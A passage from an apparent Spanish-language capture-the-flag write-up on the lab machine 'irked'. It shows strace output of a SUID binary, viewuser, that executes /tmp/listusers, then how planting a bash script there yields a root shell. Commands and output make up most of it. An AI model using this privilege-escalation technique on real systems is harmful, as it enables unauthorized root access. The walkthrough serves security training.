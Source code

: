 ```text
write(1, "This application is being devleo"..., 69This application is being devleoped to set and test user permissions
) = 69
write(1, "It is still being actively devel"..., 37It is still being actively developed
) = 37
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffdd644c) = 7945
waitpid(7945, xbytemx  tty7         2019-04-03 17:35 (:0)
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0) = 7945
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=7945, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
setuid32(0)                             = -1 EPERM (Operación no permitida)
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffdd644c) = 7947
waitpid(7947, sh: 1: /tmp/listusers: not found
[{WIFEXITED(s) && WEXITSTATUS(s) == 127}], 0) = 7947
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=7947, si_uid=1000, si_status=127, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
```

Observamos que después de intentar el setuid a 0, a lo cual no tiene permisos en mi máquina, trata de ejecutar el archivo "/tmp/listusers" sin éxito por lo que termina el programa.

Ahora que tenemos una idea de lo que trata el binario, podemos preparar el archivo listusers con un pequeño script en bash que nos mantenga una sesión interactiva:

```text
djmardov@irked:/dev/shm$ printf '#!/bin/bash\nbash -i\n' > /tmp/listusers
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 19:24 (:0)
djmardov pts/0        2019-04-03 20:24 (10.10.15.118)
djmardov pts/3        2019-04-03 19:58 (10.10.14.197)
djmardov pts/5        2019-04-03 19:25 (10.10.13.246)
djmardov pts/6        2019-04-03 19:25 (10.10.15.167)
djmardov pts/11       2019-04-03 19:29 (10.10.14.93)
djmardov pts/16       2019-04-03 19:36 (10.10.15.118)
djmardov pts/17       2019-04-03 20:04 (10.10.15.118)
djmardov pts/24       2019-04-03 20:05 (10.10.14.141)
djmardov pts/25       2019-04-03 20:29 (10.10.15.7)
root@irked:/dev/shm#
```
